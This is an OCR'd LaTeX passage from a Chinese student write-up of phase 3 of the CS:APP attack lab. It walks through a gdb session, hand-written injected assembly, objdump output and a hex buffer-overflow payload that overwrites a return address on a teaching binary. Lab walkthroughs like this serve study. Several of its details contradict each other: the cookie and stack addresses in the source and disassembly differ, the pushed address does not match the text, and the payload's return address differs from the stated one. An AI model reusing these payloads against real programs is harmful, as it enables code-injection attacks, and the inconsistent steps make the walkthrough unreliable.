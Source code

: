 \documentclass{article}
\begin{document}
\begin{lstlisting}[language=bash]
    (gdb) b *0x40196c
    Breakpoint 1 at 0x40196c: file visible.c, line 92.
    (gdb) r -q
    Starting program: /home/pdli/Desktop/lab3/target1/ctarget -q
    Cookie: 0x59b997fa

    Breakpoint 1, test () at visible.c:92
    92      visible.c: 没有那个文件或目录.
    (gdb) p/x $rsp
    $1 = 0x5561dca8
\end{lstlisting}

得知cookie字符串应存放的地址应为0x5561dca8。与phase\_2相同，攻击代码的地址为0x4017ec。

接下来让我们构建攻击汇编代码。

\begin{lstlisting}[title = 构造的汇编攻击代码phase3.s, xleftmargin = 4em,xrightmargin = 4em, aboveskip = 1em, numbers = left]
    mov    $0x59b997fa,%rdi
    pushq  $004018fa
    retq
  \end{lstlisting}

该代码首先将我们的cookie字符串的地址0x59b997fa赋给$\%rdi$，令其成为第一个参数。接下来，将函数touch3()的地址压入栈中，接下来在返回时便可以返回至该地址。

使用gcc生成其二进制形式phase3.o，并再次使用objdump进行反汇编，得到其十六进制表示。

\begin{lstlisting}[language=bash]
    linux> gcc -c phase3.s phase3.o
    linux> objdump -d phase3.o > phase3.o.s
\end{lstlisting}

\begin{lstlisting}[title = 构造的汇编攻击代码phase3.s的十六进制表示, xleftmargin = 4em,xrightmargin = 4em, aboveskip = 1em, numbers = none]
 1                                                               
 2 phase3.o：     文件格式 elf64-x86-64
 3
 4
 5 Disassembly of section .text:
 6
 7 0000000000000000 <.text>:
 8    0:   48 c7 c7 a8 dc 61 55    mov    $0x5561dca8,%rdi
 9    7:   68 fa 18 40 00          pushq  $0x4017ec
10    c:   c3                      retq                                                                                          
\end{lstlisting}


cookie值0x59b997fa作为字符串转换为ascii码表示为35 39 62 39 39 37 66 61。
因此，我们可以构造一份十六进制数据，起始为攻击代码，接下来用任意数据填充至四十字节，并在最后写入攻击代码的地址。构造的十六进制数据phase3.txt如下。

\begin{lstlisting}[title=为phase\_3构造的十六进制数据, numbers=none,xleftmargin = 9em,xrightmargin = 9em]
  48 c7 c7 a8 dc 61 55 68 fa 18 40 00 c3 00 00 00 00 00 00 00
  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  78 dc 61 55 00 00 00 00
  35 39 62 39 39 37 66 61  
\end{lstlisting}
使用工具hex2raw将其转换成攻击字符串并运行程序。
\end{document}
